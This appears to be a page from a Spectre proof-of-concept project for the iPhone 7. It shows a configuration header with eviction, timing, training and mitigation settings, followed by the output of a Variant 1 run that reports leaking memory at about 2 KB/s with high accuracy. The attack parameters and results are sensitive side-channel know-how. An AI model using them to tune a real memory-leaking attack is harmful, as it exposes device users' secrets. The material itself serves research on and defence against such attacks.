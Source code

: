 ### iPhone 7 ###

**config.h:**
```
#ifndef CONFIG_H
#define CONFIG_H

/* --- Constants --- */
#define EVICTION 0
#define FLUSHING 1
#define MSR 0
#define COUNTER_THREAD 1


/* --- Generic --- */
#define VERBOSITY 0
#define CACHE EVICTION
#define TIMER COUNTER_THREAD
#define PAGE_SIZE 16384


/* --- Eviction --- */
// #define EVICTION_THRESHOLD 150 /* use calibration! */
#define EVICTION_SET_SIZE 16
#define EVICTION_MEMORY_SIZE 20 * 1024 * 1024

/* --- Spectre --- */
#define VARIANT /* 1 or 2 */
#define BITS 4
#define ENTRY_SIZE 512
#define ITERATIONS 4
#define VICTIM_CALLS 40
#define TRAINING 9
#define THRESHOLD 110
#define BENCHMARK 1

/* --- Calculated automatically --- */
#define OFFSETS_PER_BYTE (8 / BITS)
#define VALUES (1 << BITS)

/* --- Mitigation --- */
#define MITIGATION_ASM
#define MITIGATION

#endif
```

**Variant 1:**
```
$ ./spectre
[Spectre Variant 1]
miss: 184, hit: 111, threshold: 166
Eviction set found!
Eviction set found!
finding eviction set failed!
finding eviction set failed!
Eviction set found!
leaked 10240 byte in 4923 ms. (2080.03 bytes/s) correct: 81438 / 81920 bits (99.41 %)
setup took: 770 ms.
```
